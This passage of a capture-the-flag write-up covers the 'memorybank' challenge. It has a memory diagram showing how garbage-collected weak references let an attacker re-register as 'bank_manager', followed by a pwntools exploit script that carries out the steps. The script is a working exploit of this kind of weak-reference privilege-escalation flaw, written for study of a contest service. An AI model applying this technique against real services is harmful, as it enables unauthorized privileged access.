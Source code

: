 ```text
   ├── User "bank_manager" ──> WeakRef in registry
   ├── User "random" ──> WeakRef in registry (no strong references)
   ├── 100,000 Bills
   └── (~95MB memory used)

5. Garbage Collection activates:
   [Memory]
   ├── WeakRef to "bank_manager" (object collected)
   ├── WeakRef to "random" (object collected)
   └── (Memory freed)

6. Register again with "bank_manager" name:
   [Memory]
   ├── New User "bank_manager" ──> WeakRef + strong reference
   └── Has flag access privileges
```

Here is the full script exploit:
```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

def main():
    # Connect to real server or run locally
    # p = remote('memorybank-tlc4zml47uyjm.shellweplayaga.me', 9005)
    p = process(['bash', './dist/run.sh'], cwd='.')
    
    # Uncomment when connecting to remote
    # p.recvuntil(b'please')
    # p.sendline(b'ticket{your_ticket_here}')
    
    # 1. Register random account
    p.recvuntil(b'register with a username')
    p.sendline(b'random')
    
    # 2. Set long signature
    p.recvuntil(b'Choose an operation')
    p.sendline(b'3')
    p.recvuntil(b'Enter your signature')
    p.sendline(b'A' * 1000)
    
    # 3. Withdraw money with tiny denomination
    p.recvuntil(b'Choose an operation')
    p.sendline(b'2')
    p.recvuntil(b'Enter amount to withdraw:')
    p.sendline(b'100')
    p.recvuntil(b'Enter bill denomination:')
    p.sendline(b'.001')
    
    # 4. Logout (remove strong reference)
    p.recvuntil(b'Choose an operation')
    p.sendline(b'4')
    
    # 5. Login again with "bank_manager" name
    p.recvuntil(b'register with a username')
    p.sendline(b'bank_manager')
    
    # 6. Access to get flag
    p.recvuntil(b'Choose an operation')
    p.sendline(b'6')
    
    # Switch to interactive mode to see flag
```